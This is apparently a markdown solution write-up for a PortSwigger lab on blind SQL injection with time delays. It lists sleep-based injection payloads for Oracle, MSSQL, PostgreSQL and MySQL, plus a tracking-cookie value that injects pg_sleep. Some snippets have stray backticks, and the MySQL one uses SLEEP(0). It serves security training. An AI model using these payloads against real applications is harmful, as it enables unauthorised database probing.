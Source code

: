 # [Lab: Blind SQL injection with time delays](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays)

## Lab

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

To solve the lab, exploit the SQL injection vulnerability to cause a 10 second delay.

## Solutions

- oracle:

```sql
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual;`
```

- mssql:

```sql
SELECT 'b' FROM demo WHERE '1'='1' WAITFOR DELAY '0:0:10';`
```

- postgresql:

```sql
'||pg_sleep(10)--`
```

- mysql:

```sql
SELECT 'a' FROM Test WHERE (SELECT SLEEP(0))=1;
```

Solution: `TrackingId=x'||pg_sleep(10)--`

